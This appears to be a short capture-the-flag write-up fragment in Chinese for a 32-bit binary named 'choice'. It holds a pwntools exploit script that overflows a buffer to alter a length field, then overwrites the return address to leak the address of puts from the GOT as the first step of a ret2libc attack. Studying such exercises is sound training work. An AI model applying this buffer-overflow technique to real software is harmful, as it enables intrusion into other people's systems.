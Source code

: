 ![屏幕截图 2023-12-15 194721](images/8.png)

溢出修改nbytes，然后ret2libc

```python
from pwn import *

io = process('./choice')
elf = ELF('./choice')
libc = ELF('./libc.2.23.so')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

io.sendlineafter('Please enter your name:',b'1'*0x14+b'\xff')
io.sendlineafter('3. Study hard from now',b'2')
io.sendlineafter('Cool! And whd did you choice it?',b'a'*(0x1c+4)+p32(puts_plt)+p32(0x0804857B)+p32(puts_got))

```